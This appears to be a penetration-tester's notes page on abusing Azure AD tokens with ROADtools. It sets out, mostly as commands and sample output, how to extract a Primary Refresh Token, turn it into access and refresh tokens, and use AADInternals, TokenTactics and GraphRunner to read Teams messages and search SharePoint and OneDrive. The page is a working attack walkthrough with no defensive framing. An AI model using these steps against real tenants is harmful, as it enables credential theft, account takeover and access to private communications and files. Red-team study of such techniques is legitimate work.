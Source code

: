 # Abusing and Extracting Tokens
## roadtools
### Setup
Download whl files from: 
https://dev.azure.com/dirkjanm/ROADtools/_build/latest?definitionId=19&branchName=master
(zip file can be found under "1 published" link)
Install the whl files with pip (roadlib must be installed first!):    
```
pip install .\roadlib-1.0.0-py3-none-any.whl
pip install .\roadrecon-1.6.1-py3-none-any.whl
pip install .\roadtx-1.15.0-py3-none-any.whl
```
### Get PRT 
Request a nonce:    
```
roadrecon auth --prt-init -t <tenantId>
Requested nonce from server to use with ROADtoken: AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxx
```
Request token:    
```
.\ROADToken.exe AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxxxx
Using nonce AwABEgEAAAADAOz_BQD0_w1Yd6-owW2iJut0x_rDQtRq7qZ_xxxxxx
ô§  { "response": [{ "name": "x-ms-RefreshTokenCredential", "data": "eyJrZGZfdmVyIjoyLCJjdHgiOiJTNFhMazdaaEJxdUM2Q2J2d24wWCtacFhrdGtOdGZlRyIsImFsZyI6IkhTMjU2In0.eyJ4X2NsaWVudF9wbGF0Zm9ybSI6IndpbmRvd3MiLCJ3aW5kb3dzX2FwaV92Z[...]
```
Get Tokens:
```
roadrecon auth --prt-cookie eyJrZGZfdmVyIjoyLCJjdHgiOiJTNFhMazdaaEJxdUM2Q2J2d24wWCtacFhrdGtOdGZlRyIsImFsZyI6IkhTMjU2In0.eyJ4X2NsaWVudF9wbGF0Zm9ybSI6IndpbmRvd3MiLCJ3aW5kb3dzX2FwaV92Z...
Tokens were written to .roadtools_auth
```
### Use Tokens: AADInternals
Example for gathering Teams messages using AADInternals:    
```
roadrecon auth --prt-init -t <tenantId>>
.\ROADToken.exe AwABEgEAAAADAOz_Bxxxxx
roadrecon auth --prt-cookie 'eyJxxxxx' -c '1fec8e78-bce4-4aaf-ab1b-5451cc387264' -r 'https://api.spaces.skype.com'
$teamstokens = cat .\.roadtools_auth |ConvertFrom-Json
Get-AADIntTeamsMessages -AccessToken $teamstokens.accesstoken
```
Note: The FOCI client Id has to be specified in the `-c`parameter of roadrecon auth command, in this case the Id is for the Teams client. The Ids can be found here: https://github.com/secureworks/family-of-client-ids-research?tab=readme-ov-file#which-client-applications-are-compatible-with-each-other

### Use Tokens: GraphRunner
For this we need to use tokentactics first to get an MSGraph token from the previously created tokens:   
```powershell
git clone https://github.com/f-bader/TokenTacticsV2
Import-Module .\TokenTacticsV2\TokenTactics.psd1
Invoke-RefreshToMSGraphToken -Domain "domain.tld" -RefreshToken $teamstokens.refreshToken
``` 
Now import to GraphRunner:
```powershell
Invoke-ImportTokens -AccessToken $MSGraphToken.access_token -RefreshToken $MSGraphToken.refresh_token
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm test
```

### RoadRecon
```
roadrecon gather
```
This creates the roadrecon.db file